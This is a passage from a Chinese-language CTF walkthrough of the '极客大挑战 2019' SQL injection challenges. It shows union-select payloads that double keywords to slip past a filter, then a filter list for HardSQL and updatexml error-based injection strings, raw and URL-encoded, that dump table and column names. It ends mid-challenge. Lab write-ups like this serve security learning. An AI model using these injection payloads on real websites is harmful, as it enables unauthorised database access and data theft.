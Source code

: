 ?username=cangxue' uniunionon selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(passwoorrd)%20frfromom%20b4bsql%23

最后一项就是flag:

flag{a2d99e3a-8b13-429e-b894-3fe95c321fe2}

完成！

## [极客大挑战 2019]HardSQL

先找过滤：

! * & = + | < > --+ /**/ && || <> and if sleep union by benchmark mid substr handler

而且这次检测到之后会直接强制退出流程，

直接输出：

你可别被我逮住了，臭弟弟

好狠啊作者...

而且两边有内容的空格a%20a也会被过滤掉，不过好消息是小括号可以用！

那就先探索一下闭合符号吧：

?username=cangxue'
?username=cangxue%27

返回一个syntax error：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'cangxue'' at line 1

说明闭合是quote

在union被禁用的情况下，我们选择使用error-type的注入。

总之思路还是和前面一样：

***数据库名 -> 表名 -> 字段***

这次我们就跳过数据库了（懒）

先看表名：(=可以用like代替)

?username=cangxue'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database())))，0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23

XPATH-error返回：

XPATH syntax error: '~H4rDsq1~'

这次唯一的表名叫H4rDsq1。

查字段：

?username=cangxue'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(((table_schema)like(database())))),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_schema)like(database()))),0x7e),1))%23
